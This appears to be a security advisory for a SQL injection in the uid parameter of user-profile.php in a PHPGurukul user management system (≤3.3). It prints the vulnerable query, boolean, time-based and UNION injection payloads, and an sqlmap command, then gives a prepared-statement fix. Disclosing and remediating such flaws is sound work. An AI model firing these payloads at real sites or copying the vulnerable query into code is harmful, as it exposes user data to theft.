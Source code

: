 ### 2. Multiple SQL Injection Vectors via `uid` GET Parameter in `user-profile.php` in User Registration & Login and User Management System With Admin Panel ≤ v3.3

---

## 👨‍💻 BUG Author:
**4m3rr0r**

---

## 📦 Product Information:

- **Vendor Homepage**: [https://phpgurukul.com](https://phpgurukul.com)
- **Software Link**: [User Registration & Login and User Management System With Admin Panel](https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/)
- **Affected Version**: <= 3.3
- **Product Name**: User Registration & Login and User Management System With Admin Panel

---

## 🛠 Vulnerability Details

- **Vulnerability Type**: SQL Injection (CWE-89)
- **Affected File**: `loginsystem/admin/user-profile.php`
- **Vulnerable Parameter**: `uid` (GET)
- **Authentication Required**: ✅ Yes (Admin Session)
- **Impact**: Database Enumeration, Data Exfiltration, Possible Admin Account Hijack

---

## 🧬 Root Cause

User input from the `uid` GET parameter is directly embedded into an SQL query without validation or sanitization:

```php
$userid = $_GET['uid'];
$query = mysqli_query($con, "select * from users where id='$userid'");
```

---

## ⚠️ Impact

An authenticated attacker (admin) can exploit this vulnerability to:

- Read sensitive database information
- Dump user data including email, phone number, etc.
- Enumerate entire database structure
- Chain with other vulnerabilities for privilege escalation

---

## 📋 Description

The application fails to sanitize input in the `uid` parameter of `user-profile.php`, resulting in a classic **SQL Injection vulnerability**. Since this page is accessible after admin login, a malicious admin or attacker with admin session can exploit this flaw to gain full access to the application's database.

---

## 🔬 Proof of Concept

### 🔗 Vulnerable Endpoint

```http
GET /loginsystem/admin/user-profile.php?uid=1
```

### 💣 Example Payloads

#### Boolean-Based Injection
```
uid=1' AND 1=1-- -
```

#### Time-Based Blind
```
uid=1' AND SLEEP(5)-- -
```

#### UNION-Based
```
uid=1' UNION SELECT NULL, CONCAT(user(),0x3a,database()), NULL, NULL, NULL, NULL, NULL-- -
```

### ✅ sqlmap PoC

```bash
sqlmap -u "http://192.168.16.109/loginsystem/admin/user-profile.php?uid=1" --cookie="PHPSESSID=your_admin_cookie_here" --risk=3 --level=5 --batch --dbs
```

![sqlmap](./Images/2025-07-11_00-20.png)

---

## 🛡 Suggested Remediation

Replace vulnerable query with **parameterized statements** (prepared statements):

```php
$userid = $_GET['uid'];
$stmt = $con->prepare("SELECT * FROM users WHERE id = ?");
$stmt->bind_param("i", $userid);
$stmt->execute();
$result = $stmt->get_result();
```

---

## 🔐 Security Recommendations

- Always use `prepared statements` for database queries
- Validate and sanitize all user input, especially GET/POST parameters
- Enable Web Application Firewall (WAF)
- Monitor admin activity logs for anomalies
- Apply least privilege to database user accounts

---

## 📚 References

- [https://owasp.org/www-community/attacks/SQL_Injection](https://owasp.org/www-community/attacks/SQL_Injection)
